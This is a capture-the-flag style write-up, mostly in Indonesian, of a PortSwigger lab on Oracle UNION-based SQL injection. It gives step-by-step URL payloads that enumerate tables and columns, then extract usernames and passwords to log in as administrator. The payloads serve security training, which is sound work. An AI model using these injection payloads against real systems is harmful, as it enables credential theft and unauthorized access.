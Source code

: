 # Challenge:

Lab: SQL injection attack, listing the database contents on Oracle
PRACTITIONER

## Challenge Description

This lab contains a SQL injection vulnerability in the product category filter. The results from the query are returned in the application's response so you can use a UNION attack to retrieve data from other tables.

The application has a login function, and the database contains a table that holds usernames and passwords. You need to determine the name of this table and the columns it contains, then retrieve the contents of the table to obtain the username and password of all users.

To solve the lab, log in as the administrator user.

## Resource

[Port Swigger - SQL Injection (listing database contents oracle)](https://portswigger.net/web-security/sql-injection/examining-the-database/lab-listing-database-contents-oracle)

## Step-by-Step Solution

1. **Akses Lab**
   Buka lab SQL injection untuk listing database contents pada Oracle
   ![](images/step1-lab.png)

2. **Enumerasi Tabel Database**
   Masukkan payload SQL injection untuk menampilkan semua tabel dalam database:

   ```
   /filter?category=%27+UNION+SELECT+table_name,NULL+FROM+all_tables--
   ```

   **Penjelasan Payload:**

   - `%27` - URL encoded single quote (')
   - `UNION SELECT` - Menambahkan query untuk mengekstrak data
   - `table_name` - Kolom yang berisi nama tabel
   - `NULL` - Placeholder untuk kolom kedua
   - `FROM all_tables` - View Oracle yang berisi semua tabel
   - `--` - Comment untuk mengabaikan sisa query

   ![](images/step2-query.png)

3. **Identifikasi Tabel Users**
   Cari tabel yang kemungkinan berisi username dan password
   ![](images/step3-table.png)

   **Hasil:** Ditemukan tabel `USERS_VQONUU` yang berisi kredensial user

4. **Enumerasi Kolom Tabel**
   Masukkan payload untuk menampilkan kolom-kolom dalam tabel users:

   ```
   /filter?category=%27+UNION+SELECT+column_name,NULL+FROM+all_tab_columns+WHERE+table_name=%27USERS_VQONUU%27--
   ```

   **Penjelasan Payload:**

   - `column_name` - Kolom yang berisi nama kolom
   - `FROM all_tab_columns` - View Oracle yang berisi semua kolom
   - `WHERE table_name='USERS_VQONUU'` - Filter untuk tabel users

   ![](images/step4-nextpayload.png)

5. **Ekstraksi Kredensial**
   Masukkan payload untuk mengekstrak username dan password:

   ```
   /filter?category=%27+UNION+SELECT+USERNAME_ZCOMKW,+PASSWORD_LCHTXY+FROM+USERS_VQONUU--
   ```

   **Penjelasan Payload:**

   - `USERNAME_ZCOMKW` - Kolom username
   - `PASSWORD_LCHTXY` - Kolom password
   - `FROM USERS_VQONUU` - Tabel yang berisi kredensial

   ![](images/step5-hasilpayloademailpassword.png)

6. **Login sebagai Administrator**
   Gunakan kredensial administrator yang berhasil diekstrak untuk login
   ![](images/step6-loginadmin.png)

7. **Verifikasi Login**
   Konfirmasi bahwa login berhasil sebagai administrator
   ![](images/step7-successlogin.png)

## Reflection

- **Status:** ✅ Berhasil
- **Root Cause:** Parameter category filter tidak memiliki validasi input yang proper untuk UNION-based SQL injection
- **Attack Vector:** UNION-based SQL injection melalui parameter category untuk enumerasi database contents
- **Key Insight:**
  - Berhasil menggunakan UNION SELECT untuk mengekstrak informasi struktur database Oracle
  - Payload `'+UNION+SELECT+table_name,NULL+FROM+all_tables--` berhasil menampilkan semua tabel dalam database
  - Menggunakan view `all_tables` dan `all_tab_columns` yang spesifik untuk Oracle database
  - Berhasil mengidentifikasi tabel `USERS_VQONUU` yang berisi kredensial user
  - Mengekstrak username dan password administrator untuk privilege escalation
  - Demonstrasi bagaimana SQL injection bisa digunakan untuk complete database enumeration
  - URL encoding `+` untuk spasi memungkinkan bypass input validation
  - Teknik ini memungkinkan attacker untuk mendapatkan akses administrator melalui database enumeration
